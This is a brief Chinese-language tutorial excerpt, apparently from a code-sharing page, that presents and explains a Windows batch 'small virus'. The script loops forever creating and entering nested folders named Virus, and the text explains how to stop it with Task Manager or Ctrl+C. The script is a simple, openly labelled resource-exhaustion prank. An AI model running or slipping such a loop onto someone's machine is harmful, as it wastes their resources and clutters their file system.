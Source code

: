 ### 1.Virus 脚本分析

目录重复新建代码分析

**小病毒**

无限创建目录,消耗大量电量以及内存资源.在任务管理器中可以查看,在任务管理器中关闭进程,或在执行的cmd 窗口中按 crtl+c 终止

```bat
@echo off
rem 不断 新建文件夹并切换到新文件夹
:loop
md Virus
cd Virus
goto loop

pause>nul
exit
```

